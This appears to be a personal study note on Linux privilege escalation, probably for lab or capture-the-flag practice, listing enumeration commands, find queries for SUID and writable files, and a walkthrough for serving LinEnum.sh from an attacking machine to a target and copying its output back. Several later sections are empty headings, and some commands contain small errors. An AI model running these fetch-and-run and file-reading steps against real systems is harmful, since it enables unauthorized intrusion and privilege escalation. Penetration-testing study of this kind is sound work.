






# Linux Privilege Escalation

## Initial checklist

1. Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)
2. Locating other services running or applications installed that may be abusable (SUID & out of date software)
3. Looking for automated scripts like backup scripts (exploiting crontabs)
4. Credentials (user accounts, application config files..)
5. Mis-configured file and directory permissions  

## Enumeration

### Query the System

`:> hostname` : Query the hostname  

`:> uname -a`  : Query Kernel information  

`:> cat /etc/passwd`  :  Identify system users  

`:> cat /etc/shells` : Identify potentially useful shells on the system

`:> cat /etc/crontab` : List cron jobs

`:> cat /proc/version` : Specifics about the kern verion and the GCC compilers use to build the kernel  

`:> cat /etc/issue` : Contains the pre-login prompt and can be changed

### LinEnum.sh to Exfiltrate the system information

Get LinEnum.sh onto the attacking device

`:> wget -O LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/refs/heads/master/LinEnum.sh`

Gain access to the target machine

Open a simple server on the attacking device in the directory from where LinEnum can be transported.

`:> python3 -m http.server 8888`

  

On the target device, set up a location from where the script will run.  

  

Pull the script from the python server to the target device.  

`:> wget 10.201.47.243:8888/LinEnum.sh`

The serving attacker logs the "GET" request and the target device recevies the script

  

If the target device is permitted a WAN connection, pull the script from GitHub.

`:> wget -O LinEnumFromGit.sh https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh`  

Add execution privileges to the script 

`:> chmod +x LinEnum.py`

  

Run the script and output to a file that can be studied for escalation opportunities

`:> ./LinEnum.sh > enum.txt`

Shutdown the server on the attacking device

  

Reverse the server setup and transfer the enum.txt to the attacking device for analysis and resource development.

### Use FIND to identify useful file properties and attributes  

`:> find . -name "*string*` : find all files in the current directory whose name contains 'string'  
`:> find . -name flag1.txt` : find the files in the current directory with the name "flag1.txt”  
`:> find /home -name flag1.txt` : find the files in the /home directory with the name “flag1.txt”  
`:> find / -type d -name config` : recursively search from the root directory to find the directory named config  
`:> find / -type f -perm 777` : recursively search from the root directory and list all files with the 777 permissions (files readable, writable, and executable by all users)  
`:> find / -perm a=x` : recursively search from the root directory and list all executable files  
`:> find /home -user frank` : recursively search from the /home directory and list all files for user “frank”  
`:> find / -mtime 10` : recursively search from the root directory and list all files modified in the last 10 days  
`:> find / -atime 10` : recursively search from the root directory and list all files accessed in the last 10 days  
`:> find / -cmin -60` : recursively search from the root directory and list all files changed within the last hour (60 minutes)  
`:> find / -amin -60` : recursively search from the root directory and list all files accessed within the last hour  
`:> find / -size 50M` : recursively search from the root directory and list all files 50 MB in size  
`:> find / =writable -type d 2>/dev/null` : recursively search from the root directory and list all world-writeable directories  
`:> find / -perm -222 -type d 2>/dev/null` : recursively search from the root directory and list all world-writeable directories  
`:> find / -perm -o w -type d 2>/dev/null` : recursively search from the root directory and list all world-writeable directories  
`:> find / -perm -o x -type d 2>/dev/null` : recursively search from the root directory and list all world-executable directories  
`:> find / -name perl* OR python* OR gcc*` : recursively search from the root directory and list development tools / supported languages  
`:> find / -perm /1000` : recursively search from the root directory and list objects wsith the sticky bit set  
`:> find / -perm /2000` : recursively search from the root directory and list objects wsith the SGID bit set  
`:> find / -perm /4000` : recursively search from the root directory and list objects wsith the SUID bit set  
  
## SUID/GUID 

## Writeable /etc/passwd files

## Escaping the Vi editor

## Exploit Crontab

## Exploiting the PATH variable

## Other References

[Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/)  
[David Varghese Writeup - Linux Privilege Escalation](https://david-varghese.medium.com/tryhackme-linux-privesc-9ea2cfac3b76)  
[Christine Nec Writeup - Linux Privilege Escalation](https://dev.to/christinec_dev/try-hack-me-linux-privesc-complete-write-up-20fg)  